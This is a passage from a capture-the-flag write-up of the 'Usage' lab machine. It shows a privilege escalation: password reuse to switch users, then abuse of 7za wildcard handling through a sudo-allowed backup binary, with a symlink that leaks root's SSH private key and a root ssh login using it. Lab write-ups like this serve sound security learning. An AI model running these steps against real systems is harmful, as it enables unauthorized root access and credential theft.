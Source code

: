 ```bash
       if space usage > 80% then alert
```

We now have some password, which might correspond to one of the users.\
Earlier, when looking for the user flag, I noticed there is an other user called `xander`.

## User xander - root flag

Indeed we can switch to user `xander` with the found password!

```bash
xander@usage:~$ sudo -l
sudo -l
Matching Defaults entries for xander on usage:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
```

```bash
xander@usage:~$ strings /usr/bin/usage_management
...
/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *
Error changing working directory to /var/www/html
/usr/bin/mysqldump -A > /var/backups/mysql_backup.sql
...
```

Looking up 7za exploit, I found [this article from hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks#id-7z) which looks to be exactly what we need.


```bash
xander@usage:~$ cd /var/www/html
xander@usage:/var/www/html$ touch @temp.txt
xander@usage:/var/www/html$ ln -s /root/.ssh/id_rsa temp.txt
```

Now we will run `/usr/bin/usage_management`, with option `1`.

```bash
xander@usage:/var/www/html$ sudo /usr/bin/usage_management
sudo /usr/bin/usage_management
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1
...
```

From that we can get root's private key, copy it on our own machine and connect through ssh.

```bash
$ chmod 600 id_rsa
$ ssh root@usage.htb -i id_rsa
```

And now we can get the root flag!
